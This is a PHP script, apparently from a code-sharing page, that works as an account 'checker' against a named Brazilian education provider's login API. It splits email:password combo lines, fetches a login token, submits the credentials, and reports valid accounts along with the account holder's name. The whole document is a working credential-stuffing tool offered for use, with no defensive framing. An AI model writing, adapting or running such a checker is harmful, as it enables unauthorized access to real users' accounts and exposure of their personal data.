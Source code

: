 # roquest
$checker = new roquest();
$lista = "email@email.com:password"; //value
$conta = $checker->separarLista(array(':','|'),$lista); //multiexplode

$email = $conta[0]; //value1
$senha = $conta[1]; //value2

$url = "https://www.sp.senac.br/o/senac-content-services/geraTokenLogin"; //url to request
$url_2 = "https://www.sp.senac.br/o/senac-content-services/autenticacaoLogin";  //url to request

$headers = array(
'Accept: */*',
'Accept-Encoding: gzip, deflate, br',
'Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
'Connection: keep-alive',
);

$headers_2 = array(
    'Connection: keep-alive',
    'Content-Type: text/plain',
);

$r1 = $checker->requisiçaoGet($url,$headers,'cookie1','',''); // get request
$token = $checker->puxarDados($r1,'"token":"','"','1'); // get values

$data_2 = '{"email":"'.$email.'","senha":"'.$senha.'","token":"'.$token.'"}';

$r2 = $checker->requisiçaoPost($url_2,$headers_2,$data_2,'cookie1','','');

$validar = $checker->validarConta($r2,'"nome":"','incorreto(s)!'); //message to valid account
$nome = $checker->puxarDados($r2,'"nome":"','"','1'); // get values

if($validar == 1){
    echo "OK! $email:$senha -> $nome";
}
if($validar == 0){
    echo "ERROR! $email:$senha -> Usuário ou senha incorretos";
}

